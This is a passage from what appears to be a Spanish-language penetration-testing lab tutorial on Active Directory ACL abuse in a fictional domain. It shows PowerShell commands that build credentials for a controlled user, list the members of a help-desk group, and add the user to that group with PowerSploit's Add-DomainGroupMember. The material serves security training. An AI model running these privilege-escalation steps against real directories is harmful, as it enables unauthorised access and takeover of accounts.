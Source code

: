 Podemos ver que el comando se completó correctamente, cambiando la contraseña del usuario de destino mientras usamos las credenciales que especificamos para el `wley`usuario que controlamos. A continuación, debemos realizar un proceso similar para autenticarnos como `damundsen`usuario y agregarnos al `Help Desk Level 1`grupo.
#### Creando un objeto SecureString usando damundsen

```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```

A continuación, podemos utilizar la función [Add-DomainGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) para agregarnos al grupo objetivo. Primero podemos confirmar que nuestro usuario no es miembro del grupo objetivo. Esto también se puede hacer desde un host Linux usando el archivo `pth-toolkit`.

#### Agregar damundsen al grupo Help Desk 1
```powershell-session
PS C:\htb> Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members

CN=Stella Blagg,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Marie Wright,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Jerrell Metzler,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Evelyn Mailloux,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Juanita Marrero,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Joseph Miller,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Wilma Funk,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Maxie Brooks,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Scott Pilcher,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Orval Wong,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=David Werner,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Alicia Medlin,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Lynda Bryant,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Tyler Traver,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Maurice Duley,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=William Struck,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Denis Rogers,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Billy Bonds,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Gladys Link,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Gladys Brooks,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Margaret Hanes,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Michael Hick,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Timothy Brown,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Nancy Johansen,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Valerie Mcqueen,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Dagmar Payne,OU=HelpDesk,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
```

Luego, podemos agregarlo:

```powershell-session
PS C:\htb> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Add-DomainGroupMember] Adding member 'damundsen' to group 'Help Desk Level 1'
```
